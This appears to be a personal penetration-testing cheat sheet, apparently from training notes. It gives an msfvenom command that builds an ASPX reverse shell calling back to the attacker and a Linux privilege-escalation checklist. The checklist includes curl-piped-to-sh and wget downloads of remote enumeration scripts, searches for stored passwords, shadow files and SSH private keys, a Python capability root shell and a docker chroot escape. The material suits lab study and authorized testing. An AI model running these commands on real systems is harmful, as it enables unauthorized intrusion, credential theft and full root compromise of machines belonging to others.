 
#MSFvenom :
- Create payloads (adjust as needed)
	- `msfvenom -p windows/shell_reverse_tcp LHOST=<tun0> LPORT=1337 -f aspx > manual.aspx`

### Linux Privilege Escalation [Checklist](https://book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html)

- [Basic Enumeration](obsidian://open?vault=Main-Notes&file=%F0%9F%A6%8ATCM%20Security%2FPrivEsc_Linux%2F1_Initial_Enumeration):
    - `whoami && id`
    - `uname -a && cat /etc/issue`
    - `ps aux`
    - `sudo -l`
		- #LD_PRELOAD Compile [payload](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#ld_preload) in C and call it using sudo
- Linux Enumeration Scripts:
    - [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) 1st
		- No install: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`
	- [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) 2nd
    - `LinEnum.sh`: `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh`
	- [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- #SUID [Binaries](https://gtfobins.github.io/): `find / -perm -4000 2>/dev/null`
	-  `find / -type f -perm -04000 -ls 2>/dev/null`
- Running Processes: `ps aux | grep root`
- #Kernel Exploits:
    - `searchsploit linux kernel <version>` and Google Dork
    - e.g. `dirtycow` or `dirtypipe`
- Stored passwords:
	- `cat ~/.bash_history | grep -i passw`
	- `find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`
	- `ls -la /etc/shadow`
- #SSH Keys:
	- `find / -name authorized_keys 2> /dev/null`
	- `find / -name id_rsa 2> /dev/null` 
- #Capabilities :
	- `getcap -r / 2>/dev/null`
	- e.g. python capability
		- `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
- #Crontab :
	- `cat /etc/crontab`
	- Try to inject:
		- In the path
		- In the wildcard
		- Or overwrite file being called
- #NFSRootSquashing :
	- `cat /etc/exports`
	- If “`no_root_squash`” is defined, [exploit](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe.html?highlight=NFS%20Root%20Squashing#squashing-basic-info)
- #docker 
	- `find / -name docker.sock 2>/dev/null`
	- `docker images`
	- `docker run -v /:/mnt --rm -it <image_name> chroot /mnt sh`
